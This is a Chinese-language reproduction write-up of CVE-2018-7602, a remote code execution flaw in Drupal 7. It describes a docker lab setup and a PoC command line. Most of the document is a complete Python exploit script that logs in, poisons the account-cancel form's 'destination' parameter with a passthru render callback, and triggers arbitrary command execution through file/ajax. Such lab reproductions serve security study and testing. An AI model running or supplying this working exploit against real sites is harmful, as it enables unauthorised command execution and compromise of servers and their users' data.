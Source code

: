 （CVE-2018-7602）Drupal 远程代码执行漏洞
========================================

一、漏洞简介
------------

Drupal
7.x版本和8.x版本中的存在存在远程代码执行漏洞。远程攻击者可利用该中断执行任意代码。

二、漏洞影响
------------

Drupal 7.x版本和8.x

三、复现过程
------------

### 漏洞环境

执行如下命令启动drupal 7.57的环境：

    docker-compose up -d

环境启动后，访问 `http://your-ip:8081/`
将会看到drupal的安装页面，一路默认配置下一步安装。因为没有mysql环境，所以安装的时候可以选择sqlite数据库。

### 漏洞复现

参考[ianxtianxt/CVE-2018-7602](https://github.com/ianxtianxt/CVE-2018-7600)的PoC。

如下图所示，执行以下命令即可复现该漏洞。示例命令为
`id`，如图红框中显示，可以执行该命令。

    # "id"为要执行的命令 第一个drupal为用户名 第二个drupal为密码
    python3 drupa7-CVE-2018-7602.py -c "id" drupal drupal http://127.0.0.1:8081/

![](./.resource/(CVE-2018-7602)Drupal远程代码执行漏洞/media/rId27.png)

### CVE-2018-7602.py

    #!/usr/bin/env python3

    import requests
    import argparse
    from bs4 import BeautifulSoup

    def get_args():
      parser = argparse.ArgumentParser( prog="drupa7-CVE-2018-7602.py",
                        formatter_class=lambda prog: argparse.HelpFormatter(prog,max_help_position=50),
                        epilog= '''
                        This script will exploit the (CVE-2018-7602) vulnerability in Drupal 7 <= 7.58
                        using an valid account and poisoning the cancel account form (user_cancel_confirm_form) 
                        with the 'destination' variable and triggering it with the upload file via ajax (/file/ajax).
                        ''')

      parser.add_argument("user", help="Username")
      parser.add_argument("password", help="Password")
      parser.add_argument("target", help="URL of target Drupal site (ex: http://target.com/)")
      parser.add_argument("-c", "--command", default="id", help="Command to execute (default = id)")
      parser.add_argument("-f", "--function", default="passthru", help="Function to use as attack vector (default = passthru)")
      parser.add_argument("-x", "--proxy", default="", help="Configure a proxy in the format http://127.0.0.1:8080/ (default = none)")
      args = parser.parse_args()
      return args

    def pwn_target(target, username, password, function, command, proxy):
      requests.packages.urllib3.disable_warnings()
      session = requests.Session()
      proxyConf = {'http': proxy, 'https': proxy}
      try:
        print('[*] Creating a session using the provided credential...')
        get_params = {'q':'user/login'}
        post_params = {'form_id':'user_login', 'name': username, 'pass' : password, 'op':'Log in'}
        print('[*] Finding User ID...')
        session.post(target, params=get_params, data=post_params, verify=False, proxies=proxyConf)
        get_params = {'q':'user'}
        r = session.get(target, params=get_params, verify=False, proxies=proxyConf)
        soup = BeautifulSoup(r.text, "html.parser")
        user_id = soup.find('meta', {'property': 'foaf:name'}).get('about')
        if ("?q=" in user_id):
          user_id = user_id.split("=")[1]
        if(user_id):
          print('[*] User ID found: ' + user_id)
        print('[*] Poisoning a form using \'destination\' and including it in cache.')
        get_params = {'q': user_id + '/cancel'}
        r = session.get(target, params=get_params, verify=False, proxies=proxyConf)
        soup = BeautifulSoup(r.text, "html.parser")
        form = soup.find('form', {'id': 'user-cancel-confirm-form'})
        form_token = form.find('input', {'name': 'form_token'}).get('value')
        get_params = {'q': user_id + '/cancel', 'destination' : user_id +'/cancel?q[%23post_render][]=' + function + '&q[%23type]=markup&q[%23markup]=' + command }
        post_params = {'form_id':'user_cancel_confirm_form','form_token': form_token, '_triggering_element_name':'form_id', 'op':'Cancel account'}
        r = session.post(target, params=get_params, data=post_params, verify=False, proxies=proxyConf)
        soup = BeautifulSoup(r.text, "html.parser")
        form = soup.find('form', {'id': 'user-cancel-confirm-form'})
        form_build_id = form.find('input', {'name': 'form_build_id'}).get('value')
        if form_build_id:
            print('[*] Poisoned form ID: ' + form_build_id)
            print('[*] Triggering exploit to execute: ' + command)
            get_params = {'q':'file/ajax/actions/cancel/#options/path/' + form_build_id}
            post_params = {'form_build_id':form_build_id}
            r = session.post(target, params=get_params, data=post_params, verify=False, proxies=proxyConf)
            parsed_result = r.text.split('[{"command":"settings"')[0]
            print(parsed_result)
      except:
        print("ERROR: Something went wrong.")
        raise

    def main():
      print ()
      print ('===================================================================================')
      print ('|   DRUPAL 7 <= 7.58 REMOTE CODE EXECUTION (SA-CORE-2018-004 / CVE-2018-7602)     |')
      print ('|                                   by pimps                                      |')
      print ('===================================================================================\n')

      args = get_args() # get the cl args
      pwn_target(args.target.strip(),args.user.strip(),args.password.strip(), args.function.strip(), args.command.strip(), args.proxy.strip())


    if __name__ == '__main__':
      main()

参考链接
--------

> https://vulhub.org/\#/environments/drupal/CVE-2018-7602/
